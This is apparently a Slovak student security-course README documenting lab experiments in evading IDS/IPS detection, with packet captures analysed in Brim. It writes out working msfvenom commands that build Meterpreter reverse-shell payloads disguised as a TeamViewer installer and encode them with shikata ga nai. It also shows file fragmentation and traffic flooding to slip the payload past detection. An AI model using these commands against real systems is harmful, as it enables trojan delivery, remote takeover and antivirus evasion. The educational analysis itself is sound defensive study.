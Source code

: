 # BIT - IDS/IPS evasion techniques

Obsahom github repozitára je praktická realizácia IDS/IPS obfuskačných techník, ktorá je súčasťou semestrálneho projektu v rámci predmetu Bezpečnosť informačných technológií.

<br>

Venovali sme obfuskačným technikám, kedy sme prenášali škodlivý súbor cez sieť a následne sme pomocou nástroja Wireshark zachytili sieťovú komunikáciu. Vygenerované súbory (.pcap) sme ďalej analyzovali prostredníctvom nástroja Brim. 

<br>

* [No Encoding (.pcap)](/assets/pcaps/No_Encoding.pcap)

* [Shikata ga nai (.pcap)](/assets/pcaps/Shikata_ga_nai.pcap)

* [Fragmentation (.pcap)](/assets/pcaps/Fragmentation.pcap)

* [Flooding (.pcap)](/assets/pcaps/Flooding.pcap)

<br>

Príkazom ``msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -f exe -o TeamViewerInstall.exe`` sme vytvorili škodlivý súbor, ktorého účelom je spustenie reverse shellu. Jednoduchý útočný scénar môže predstavovať používateľa, ktorý si chce stiahnuť aplikáciu Team Viewer, kedy ako útočník mu vieme poskytnuť škodlivý spustiteľný kód, ktorý vráti reverse shell. Škodlivý súbor nebol enkódovaný, preto môžeme vidieť v nástroji Brim(viď obrázok Fig.1) identifikáciu spustiteľného súboru v zázname pe.log( https://docs.zeek.org/en/master/logs/index.html) (WINDOWS 95 or NT 4.0 WINDOWS\_GUI), kedy ako sieťový administrátor môžeme ďalej preverovať komunikáciu a následne zabraniť spusteniu kódu. Tiež sme mohli identifikovať alert pre Python SIMPLEHTTP, ale v tomto prípade sme chceli simulovať práve prenos škodlivého súboru, preto môžeme vygenerované upozornenie ignorovať.

<br>

![No Encoding](/assets/img/fig1_no_encoding.png)
|:--:|
| <b>Fig.1 - Identifikácia spustiteľného súboru v nástroji Brim</b>|

<br>

Príkazom ``msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o TeamViewer_Setup.exe -i 5`` sme vytvorili škodlivý súbor, ktorého účelom je spustenie reverse shellu. Škodlivý kód je šifrovaný metódou shikata ga nai, ktorý má efektívne zabrániť odhalenie škodlivej činnosti. Následne sme príkazom ``python3 -m http.server`` spustili http server. Príkazom ``wget 192.168.100.153:8000/Team_Viewer_Setup.exe`` sme následne súbor stiahli. Komunikáciu sme zachytili pomocou nástroja Wireshark, kedy sme prenos uložili do .pcap súboru. Pcap súbor sme následne vložili do nástroja Brim pre dôkladnejšiu analýzu spojenia. Na obrázku Fig.2 sme mohli evidovať, že nástroj nebol schopný identifikovať spustiteľný kód, kedy ako sieťový administrátor nemáme vedomosť o škodlivej aktivite. Ako útočník sme úspešne obišli IDS/IPS a môžeme vykonávať zlomyseľnú činnosť.

<br>

![Shikata ga nai](/assets/img/fig2_shikata_ga_nai.png)
|:--:|
| <b>Fig.2 - Analýza komunikácie v nástroji Brim (shikata ga nai)</b>|

<br>

Taktiež sme mohli evidovať, že vo väčšine prípadov nebol súbor identifikovaný antivírusovými softvérmi (viď obrázok Fig.3).

<br>

![VirusTotal Shikata ga nai](/assets/img/fig3_virustotal_shikata_ga_nai.png)
|:--:|
| <b>Fig.3 - VirusTotal pre škodlivý súbor enkódovaný shikata ga nai</b>|

<br>

Súbor, ktorý nebol enkódovaný mal vyššiu úspešnosť detekcie antivírusovými softvérmi (viď obrázok Fig.4).

<br>

![VirusTotal No Encoding](/assets/img/fig4_virustotal_no_encoding.png)
|:--:|
| <b>Fig.4 - VirusTotal pre škodlivý súbor bez enkódovania</b>|

<br>

Príkazom ``split --verbose -b1K TeamViewerInstall.exe`` sme rozdelili škodlivý súbor na viacero menších súborov. Ďalej sme príkazom ``python3 -m http.server`` spustili http server.
Príkazom ``for i in {a,b,c,d,e,f,g,h,i,j,k,l,m,n,o,p,q,r,s,t,u,v,w,x,y,z}; do wget 192.168.100.153:8000/xa$i;done`` a ďaľšou modifikáciou príkazu sme stiahli zo serveru všetky súbory, ktoré nám príkaz ``split`` vygeneroval. Na obrázku Fig.5 možme pozorovať zachytenú komunikáciu pomocou Wireshark a následna vizualizácia IDS logov v nástroji Brim. Týmto spôsobom sme chceli simulovať fragmentáciu súboru, kedy posielame súbor vo fragmentoch, aby systémy detekcie prienikov nedokázali identifikovať podpisy škodlivých súborov. Napriek posielaniu súboru vo fragmentoch bol súbor identifikovaný ako spustiteľný. Mojim presvedčením je, že ak budeme posielať súbor ešte v menších fragmentoch, nebudú IDS nástroje schopné identifikovať podpis. Žiaľ sa mi nepodarilo simulovať prenos v menších fragmentoch.

<br>

![Fragmentation](/assets/img/fig5_fragment.png)
|:--:|
| <b>Fig.5 - Simulácia fragmentácie a analýza komunikácie v Brim</b>|

<br>

Príkazom ``cat `ls` > vsetko.exe`` sme následne poskladali fragmenty súboru spätne na pôvodný súbor. Ďalej pomocou ``md5sum vsetko.exe`` a ``md5sum TeamViewerInstall.exe`` sme overili a porovnali zhodu pôvedného súboru so súborom, ktorý bol spätne poskladaný (viď obrázok Fig.6).

<br>

![Reassemble](/assets/img/fig6_reassemble.png)
|:--:|
| <b>Fig.6 - Znovuzloženie a overenie zhody s pôvodným súborom</b>|

<br>

Príkazom ``while :; do wget 192.168.100.153:8000/TeamViewerInstall.exe;done``
sme sa snažili vyčerpať zdroje zahltením siete hlukom. Ďalej sme príkazom ``wget 192.168.100.153:8000/TeamViewer_Setup.exe`` podstrčili škodlivý súbor. Chceli sme simulovať metódu flooding, kedy generujeme veľke množstvo sieťovej premávky, tak aby sme zahltili zdroje a následne podstrčili škodlivý súbor bez detekcie. Naša simulácia je ukážka ako metódu možno použiť, pre potreby zahltenia výpočtového výkonu je potrebné generovať väčšie množstvo sieťovej premávky. Na obrázku Fig.7 vieme pozorovať zachytenu komunikáciu s veľkým množstvom upozornení a detekciu spustiteľného kódu. 

<br>

![Flooding](/assets/img/fig7_flooding.png)
|:--:|
| <b>Fig.7 - Simulácia metódy Flooding</b>|

<br>

# Zdroje
- https://ieeexplore.ieee.org/document/6042389
- https://ieeexplore.ieee.org/document/8907177
- https://www.techtarget.com/searchsecurity/definition/intrusion-detection-system
- https://www.geeksforgeeks.org/intrusion-detection-system-ids/
- https://academy.hackthebox.com/module/39/section/416
- https://www.softwaretestinghelp.com/intrusion-detection-systems/
- https://www.pearsonitcertification.com/articles/article.aspx?p=174342&seqNum=3


